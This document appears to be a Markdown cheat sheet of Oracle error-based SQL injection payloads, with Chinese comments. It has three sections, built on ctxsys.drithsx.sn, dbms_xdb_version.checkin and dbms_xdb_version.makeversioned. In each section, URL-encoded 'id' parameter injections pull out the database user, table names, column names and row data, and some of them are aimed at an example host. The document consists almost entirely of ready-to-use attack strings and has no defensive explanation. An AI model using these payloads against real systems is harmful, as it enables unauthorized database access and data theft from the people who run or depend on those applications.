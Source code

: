 ## ctxsys.drithsx.sn () 

```sql
# 获取用户名
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select user from dual)%7c%7c'~') --+

# 获取表名
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') --+

# 获取字段名
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') --+

# 获取数据
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') --+

```

## dbms_xdb_version.checkin ()

```sql
# 获取用户名
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

## dbms_xdb_version.makeversioned ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```
